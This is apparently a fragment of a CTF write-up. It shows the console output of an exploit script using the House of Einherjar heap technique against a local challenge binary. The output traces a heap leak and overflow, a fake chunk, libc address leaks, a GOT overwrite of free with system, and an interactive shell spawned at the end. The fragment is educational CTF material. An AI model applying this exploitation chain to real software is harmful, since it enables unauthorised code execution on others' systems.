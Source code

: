[*] For remote: solve.py HOST PORT
[+] Starting program '/home/rh0gue/Documents/HouseOfEinherjar/OTA_challenge_of_the_month': Done
[9801]
[*] Paused (press any to continue)
    Starting House of Einherjar technique...
[+] heap chunk leaked: 0x811b088
[*] triggering heap overflow
[*] crafting fake chunk in .bss
[*] restoring fake chunk size
[+] HoE succeeded! heap chunk returned: 0x804a0b0
    Starting infoleaks...
[+] printf@libc found at: 0xf7633280
[+] getchar@libc found at: 0xf764d4a0
[+] puts@libc found at: 0xf764b650
[+] __libc_start_main found at: 0xf75ff990
[+] libc base found at: 0xf75e6000
[+] system@libc found at: 0xf7626190
[+] free@GOT overwritten with system@libc
[+] "/bin/sh" written to: 0x804a0e8
    Spawning shell...
[*] Switching to interactive mode
$ id
uid=1000(rh0gue) gid=1000(rh0gue) groups=1000(rh0gue),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),124(sambashare),127(kvm),128(libvirtd)
$ 
{% endhighlight %}
